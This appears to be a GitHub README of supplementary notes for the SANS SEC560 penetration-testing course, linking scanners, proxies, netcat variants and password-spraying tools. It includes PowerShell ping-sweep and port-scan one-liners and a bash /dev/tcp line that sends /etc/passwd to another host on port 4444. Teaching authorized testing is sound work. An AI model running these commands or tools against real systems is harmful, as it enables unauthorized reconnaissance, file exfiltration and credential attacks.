 # 560-Extras
Notes and other extras related to SANS SEC560

## Day 1


## Day 2


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 
```
1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}
```

PowerShell port scan example: 
```
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null
```


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Bash /dev/tcp fun

Connect to a port: 
```
echo "" > /dev/tcp/142.250.138.139/443
```

Send a file: 
```
cat /etc/passwd > /dev/tcp/10.10.10.10/4444
```

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

lolcat (lol): https://github.com/busyloop/lolcat

Awesome lolcat from Jeff McJunkin:
```
while true; do fortune | cowsay -f $(find /usr/share/cowsay/cows/ -type f | sort -R | head -n1) |
lolcat -a -s 40; sleep 2; done
```

Can use telnet, too (although it is not a cat): telnet ip port


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year:

http://weakpasswords.net/


### Password Spraying

DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/

SprayingToolkit: https://github.com/byt3bl33d3r/SprayingToolkit

TrevorSpray: https://github.com/blacklanternsecurity/TREVORspray


## Day 3

## Day 4

## Day5
